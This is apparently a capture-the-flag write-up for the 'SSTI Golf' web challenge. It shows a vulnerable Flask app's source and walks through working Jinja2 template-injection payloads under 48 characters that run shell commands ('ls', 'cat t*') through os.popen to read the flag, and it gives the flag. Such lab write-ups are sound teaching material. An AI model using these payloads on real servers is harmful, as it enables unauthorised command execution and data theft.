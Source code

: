 ## Challenge Name: SSTI Golf
Category: Web
Points: 100
Solves: 223

Challenge Description:  
__Just in case you didn't get enough golf with the other challenge.  
Flag is in an arbitrarily named file, but in the same directory.__  

Link: http://sstigolf.chal.imaginaryctf.org

### Approach

The website displayed python flask source code.
```
#!/usr/bin/env python3

from flask import Flask, render_template_string, request, Response

app = Flask(__name__)

@app.route('/')
def index():
    return Response(open(__file__).read(), mimetype='text/plain')

@app.route('/ssti')
def ssti():
    query = request.args['query'] if 'query' in request.args else '...'
    if len(query) > 48:
        return "Too long!"
    return render_template_string(query)

app.run('0.0.0.0', 1337)
```  

It says that the site would render anything you put into the `query` parameter in the `ssti` directory.  
As the challenge name suggests, this strng rendering can cause Server Side Template Injection.  
You'll have to put the payload like this.  
`/ssti?query=<payload>`
I tested a bsic Flask/Jinja2 SSTI payload to see if they'll work.  
`{{config}}`  
It worked and returned me the config variables.  

![ssti](https://github.com/0xL30N3/Writeups/blob/main/Images/sstigolf.png)  
Next step is to try and write a payload that'll return me the flag.  
`{{lipsum.__globals__.os.popen('ls').read()}}`  
You can also use `url_for` instead of `lipsum` but lipsum is shorter and we have a word limit of 48.  
`os.popen()` runs system commands in python.  
We can see an interesting file named `truly_an_arbitrarily_named_file` if we ran the payload.  
We will now try to read the file.  
You can use `cat truly_an_arbitrarily_named_file` but the word limit will be exceeded.  
So, you can either delcare `truly_an_arbitrarily_named_file` as a config variable  
Or you can use `cat t*`.  
I chose the latter because it's less work and shorter.
So, our final payload is gonna be :  
`{{lipsum.__globals__.os.popen('cat t*').read()}}`  

__Flag:  `ictf{F!1+3r5s!?}`__
